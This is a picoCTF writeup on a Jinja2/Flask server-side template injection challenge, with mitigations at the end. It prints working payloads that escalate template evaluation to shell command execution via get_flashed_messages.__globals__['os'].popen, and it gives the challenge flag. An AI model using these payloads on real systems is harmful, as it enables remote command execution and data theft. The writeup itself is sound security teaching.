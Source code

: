 ````markdown
# picoCTF – Server-Side Template Injection (SSTI) – Writeup

**Category:** Web Exploitation  
**Platform:** picoCTF (picoGym)  
**Challenge link:** [https://play.picoctf.org/practice/challenge/492](https://play.picoctf.org/practice/challenge/492)  
**Vulnerability:** Server-Side Template Injection (Jinja2 / Flask)  
**Flag:** `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}`

---

## 📝 Overview
The target web app reflects user input into a server-side template without proper sanitization.  
That allows Jinja2 expressions to be evaluated on the server (SSTI), which we can escalate to arbitrary command execution and read the flag file.

References:  
- [PortSwigger — Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection)  
- [Flask docs — Message Flashing](https://flask.palletsprojects.com/en/stable/patterns/flashing/)

---

## 🔍 Recon & Vulnerability Discovery

### 1) Probe for SSTI
Start with a math probe to see if the template engine evaluates input:

```jinja
{{7*7}}
````

**Result:** The page returns `49`.
This confirms server-side evaluation (Jinja2).

---

### 2) Enumerate exposed objects

Try common objects to gauge context:

```jinja
{{ config }}
{{ request }}
{{ request.args }}
{{ request.headers }}
```

**Observed:**

```
{{ config }} -> <Config {'DEBUG': False, ...}>
{{ request.args }} -> ImmutableMultiDict([])
{{ request.headers }} -> (headers dump)
```

This strongly suggests **Flask + Jinja2** with access to Flask’s request context.

---

## 🚀 Privilege Escalation to RCE

Pivot using the flashing mechanism’s helper, which exposes Python modules:

```jinja
{{ get_flashed_messages.__globals__['os'].popen('ls').read() }}
```

**Result:**

```
__pycache__  app.py  flag  requirements.txt
```

✅ Arbitrary command execution confirmed.

> **Why this works:**
> `get_flashed_messages` is a Flask helper available in the Jinja2 environment.
> The function’s `.__globals__` gives access to its module’s namespace, including imported modules like `os`.
> From there, `os.popen()` executes shell commands.

---

## 🎯 Exfiltrate the Flag

With RCE confirmed, read the `flag` file.

**Method A — via shell:**

```jinja
{{ get_flashed_messages.__globals__['os'].popen('cat flag').read() }}
```

**Method B — via Python I/O:**

```jinja
{{ get_flashed_messages.__globals__['__builtins__'].open('flag').read() }}
```

**Output:**

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}
```

---

## ⚠️ Root Cause

* The app renders **untrusted user input** with `render_template_string`.
* Jinja2 expressions (`{{ ... }}`) are evaluated inside the template context.
* Attackers can reach Python builtins/modules like `os`, enabling arbitrary command execution.

---

## 🔒 Mitigations

* Never render raw user input directly into templates.
* Use context variables safely:

  ```python
  render_template("page.html", user=user)
  ```

  and in template: `{{ user|e }}` (escape input).
* Use sandboxed environments or limit exposed globals.
* Apply strict input validation and sanitization.
* Runtime defenses (e.g., WAFs) may block common SSTI payloads but are not substitutes for secure coding.

---

## 📌 TL;DR

1. Test: `{{7*7}}` → `49` (SSTI confirmed).
2. Enumerate: `{{ config }}`, `{{ request }}`.
3. Exploit: `{{ get_flashed_messages.__globals__['os'].popen('ls').read() }}`.
4. Read flag: `{{ ... 'cat flag' ... }}` → `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_eb0c6390}`.

---

### 📚 References

* [PortSwigger Web Security Academy — Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection)
* [Flask docs — Message Flashing](https://flask.palletsprojects.com/en/stable/patterns/flashing/)
* [OnSecurity — SSTI with Jinja2](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

```